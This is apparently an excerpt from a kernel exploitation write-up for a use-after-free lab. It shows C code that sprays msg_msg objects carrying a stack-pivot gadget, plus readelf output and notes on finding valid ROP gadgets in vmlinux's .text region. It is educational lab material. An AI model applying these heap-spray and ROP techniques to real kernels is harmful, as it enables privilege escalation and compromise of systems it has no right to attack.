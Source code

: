 ```c
	ops[12] = gadget_pivot; //
	// ops[20] = ret_gadget; /
    // ops[12] = 0xdeadbeefdeadbe12;
	if (msgsnd(queue, &msg, MSG_SZ, IPC_NOWAIT) == -1) {
        fails++;
    }
	return fails;
}

// calling the above function to spam 25 messages in each queue :D
for(int i = 0; i < msg_count; i++) {
  printf("[+] Spraying msg_msg in message queue %d: %d\n", i, msg_queue[i]);
  for(int j = 0; j < 25; j++) {
    fails += set_message(i, msg_queue);
  }
}
```

I wanted to build a ROP chain that resembles [h0mbre's](https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/) `(follow it for the working)` and Initially I thought I did, but then later I realized I was finding the ROP gadgets at wrong addresses that did not have executeble bits nor were actually present when I was debugging through gdb. You will need to find gadgets that would work by specifically extracting from the regions that would be valid using the below commands:

```sh
readelf -Wl vmlinux

Elf file type is EXEC (Executable file)
Entry point 0x1000000
There are 5 program headers, starting at offset 64

Program Headers:
  Type           Offset   VirtAddr           PhysAddr           FileSiz  MemSiz   Flg Align
  LOAD           0x200000 0xffffffff81000000 0x0000000001000000 0x185e854 0x185e854 R E 0x200000
  LOAD           0x1c00000 0xffffffff82a00000 0x0000000002a00000 0x7df000 0x7df000 RW  0x200000
  LOAD           0x2400000 0x0000000000000000 0x00000000031df000 0x02cae8 0x02cae8 RW  0x200000
  LOAD           0x260c000 0xffffffff8320c000 0x000000000320c000 0x273000 0x424000 RWE 0x200000
  NOTE           0x1a5e800 0xffffffff8285e800 0x000000000285e800 0x000054 0x000054     0x4

 Section to Segment mapping:
  Segment Sections...
   00     .text .rodata .pci_fixup .tracedata __ksymtab __ksymtab_gpl __ksymtab_strings __init_rodata __param __modver __ex_table .notes 
   01     .data __bug_table .orc_header .orc_unwind_ip .orc_unwind .orc_lookup .vvar 
   02     .data..percpu 
   03     .init.text .altinstr_aux .init.data .x86_cpu_dev.init .parainstructions .retpoline_sites .return_sites .call_sites .ibt_endbr_seal .altinstructions .altinstr_replacement .apicdrivers .exit.text .smp_locks .data_nosave .bss .brk 
   04     .notes 
```

From here, we can obtain address region for `.text` then use ROPGadget tool to find gadgets, Apparently using `.init.text` region gadgets does not work.
